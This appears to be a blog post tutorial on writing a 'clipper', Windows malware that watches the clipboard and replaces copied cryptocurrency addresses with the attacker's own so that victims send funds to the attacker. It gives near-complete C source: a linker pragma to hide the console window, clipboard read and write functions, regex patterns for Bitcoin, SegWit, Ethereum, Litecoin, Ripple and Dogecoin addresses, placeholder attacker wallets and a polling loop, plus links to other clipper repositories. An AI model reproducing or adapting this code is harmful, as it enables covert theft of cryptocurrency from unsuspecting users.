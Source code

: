 ```yaml
---
layout: post
title: "CLIPPER IN 30 MINUTES"
date: 2023-03-10T03:22:42Z
authors: ["Sage Kirk", "Mike Vance"]
categories: ["Development"]
description: "I won't say the product is good or bad as I haven't used it and can't claim anything. And now I will show that the task of writing your own clipper is not so difficult and many people can do it, especially those who have dealt with copy-pasted source codes in the public domain."
thumbnail: "/assets/images/blog/python-.jpg"
image: "/assets/images/blog/python-.jpg"
comments: false
---
```


# CLIPPER IN 30 MINUTES

I won't say the product is good or bad as I haven't used it and can't claim anything. And now I will show that the task of writing your own clipper is not so difficult and many people can do it, especially those who have dealt with copy-pasted source codes in the public domain.

## How the clipper works

Let's figure out what a clipper is. Clipper is a malicious program that replaces the crypto addresses in the clipboard with the attacker's addresses so that the victim sends them to the attacker while sending coins.
According to this description, we throw in a scheme of work:

Looks simple enough. Let's break down each block.
Obtaining and replacing the clipboard can be implemented through any library that works with winapi in any language.

**How to check if a text is an address? The answer is regular expressions (regex). What's this?**

Regular expressions - used in computer programs that work with text, a formal language for searching and manipulating substrings based on the use of metacharacters ( wildcard in text , . characters) To search, a pattern string is used ( English pattern, in Russian it is often called a "template", "mask"), consisting of characters and metacharacters and setting the search rule. For manipulations with text, a replacement string is additionally specified, which can also contain special characters.
For dummies, regular expressions are a formal language, thanks to which you can check if the text matches certain criteria - length, set of letters, and so on.
You can read more about them here . Checking for compliance occurs according to patterns (English pattern, we usually use the term "template"). Patterns can be easily found on the Internet by query "*crypt* address regex".
Now I will show with my example that writing your own clipper is much easier than you think.

## Clipper writing

I will write in C, it can be written even in python, but it is not recommended.
We create a project in Visual Studio, we create the main file in it, I called it main.c.

Since there is no regex library in the C standard library, I will use the impossibly crude but single and compact library tiny-regex-c . Download re.c and re.h, import them into the project.

We import the necessary libraries into main.c and hide the console through keywords for the compiler: 
```c
#include "re.h"
#include <windows.h>
#pragma comment(linker, "/SUBSYSTEM:windows /ENTRY:mainCRTStartup")
```
We write functions for getting and replacing the clipboard: 
```python
char* getclipboard()
{
    static HANDLE clip;
    if (OpenClipboard(NULL))
    {
        clip = GetClipboardData(CF_TEXT);
        CloseClipboard();
    }
    return (char*)clip;
}

void setclipboard(char* text)
{
    HGLOBAL global = GlobalAlloc(GMEM_FIXED, strlen(text) + 1);
    memcpy(global, text, strlen(text));
    if (OpenClipboard(NULL))
    {
        EmptyClipboard();
        SetClipboardData(CF_TEXT, global);
        CloseClipboard();
    }
}
```
We create a structure for wallets, it will allow you to easily add new wallets to the clipper (and with the help of regular expressions, you can add at least a substitution of payment links).
```python
typedef struct crypto {
    char* ptn;
    char* address;
}; 
```
We create variables in it with our wallets:
```python
const char* btcadr = "";
const char* segwitadr = "";
const char* ethadr = "";
const char* ltcadr = "";
const char* xrpadr = "";
const char* dogeadr = "";
```
We create structures for wallets and combine them into one list. The ptn variable is the regex pattern, the address variable is the address that will be substituted.

I will have 5 cryptocurrencies - Bitcoin (+SegWit addresses (bc1q)), Ethereum, Litecoin, Ripple, Dogecoin. 
```c
struct crypto btc = { .ptn = "^[13][a-km-zA-HJ-NP-Z1-9]*$", .address = btcadr };  // fixed length is not supported in tiny regex

struct crypto segwit = { .ptn = "^bc1q[a-zA-HJ-NP-Z0-9]*$", .address = segwitadr };  // p2pkh and p2wpkh have different regular expressions, since changing the legacy address to segwit (bc1q) will be noticeable

struct crypto eth = { .ptn = "^0x[a-fA-F0-9]*$", .address = ethadr };

struct crypto ltc = { .ptn = "^[LM3][a-km-zA-HJ-NP-Z1-9]*$", .address = ltcadr };

struct crypto xrp = { .ptn = "^r[0-9a-zA-Z]*$", .address = xrpadr };

struct crypto doge = { .ptn = "^D[5-9A-HJ-NP-U][1-9A-HJ-NP-Za-km-z]*$", .address = dogeadr };

struct crypto all[6] = { btc, segwit, eth, ltc, xrp, doge };  // where 6 is the number of services
```
Regular expressions have a non-fixed (*) number of repetitions. This is not so safe, since, say, the text 1abc will match the regular expression and will be replaced. It is used due to the fact that tiny-regex-c cannot be set to a fixed number of repetitions, in all languages ​​where it is supported, I urge you to set a fixed number of repetitions corresponding to the type of address.
Main Loop:
```js
while (1) {
         char*clipdata = getclipboard();  // get clipboard
         if (clipdata != NULL) { // if there is something in the buffer
             for (int i = 0; i < 6; i++) { // loop from all types of wallets, where 6 is the number of services
                 int matchlen;
                 int match = re_match(all[i].ptn, clipdata, &matchlen);  // check if the text in the buffer is the corresponding address
                 if (match != -1) { // if it is, change the clipboard to the address specified in the code
                     setclipboard(all[i].address);
                 }
             }
         }
         Sleep(50);  // so that the percent does not load, after each check, sleep for 0.05 seconds
     }
```
In the comments, I wrote down what each team is responsible for.

> It took me ～half an hour to write this clipper. Only 65 lines, the final stub weighs 12.5kb.
You can add substitution of other addresses on a regular basis in the same way as wallets are added above. Sending information about a PC and other garbage can be soldered by anyone, with Google.

## Sources :

**C Clipper** : [link](https://github.com/ratabomb/fuckclipper)
**C++ Clipper** : [link](https://github.com/sorosgamble/CoinClipper)
**Py Clipper** : [link](https://github.com/NightfallGT/BTC-Clipper)
**C# Clipper** : [link](https://github.com/SmokingWalrus/BTC-Clipper)
**PureBasic Clipper** : [link](https://github.com/fakkura/Clipper)
